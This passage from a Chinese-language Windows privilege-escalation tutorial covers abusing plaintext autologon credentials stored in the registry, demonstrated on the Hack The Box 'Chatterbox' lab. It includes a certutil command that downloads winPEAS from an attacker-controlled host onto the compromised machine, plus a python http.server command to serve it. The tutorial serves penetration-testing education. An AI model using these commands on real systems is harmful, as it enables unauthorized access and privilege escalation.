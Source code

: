 ## 方法6：保存凭据

在Windows中，偶尔会出现用户凭据以纯文本形式保存的情况。这发生的原因有很多。一个原因是如果启用了Windows的自动登录功能。该功能将凭据以纯文本形式存储在注册表中，允许其他用户启动计算机并自动使用该帐户登录。

下面将演示如何利用此功能将低级帐户提升到管理员。

这里将使用“Hack The Box: Chatterbox”机器作为演示环境。一旦通过缓冲区溢出建立了反向shell，你将成为用户Alfred。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-32.webp)

可以从攻击机器开始一些自动枚举，通过以下命令将winPEAS从攻击机器下载到Chatterbox：

```
certutil -urlcache -split -f "http://10.10.14.12:8000/winPEASany.exe" wp.exe
```

确保攻击机器上有一个服务器，位于与winPEAS相同的文件夹中，这样就可以下载文件。可以使用命令：

```
python3 -m http.server
```

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-33.webp)
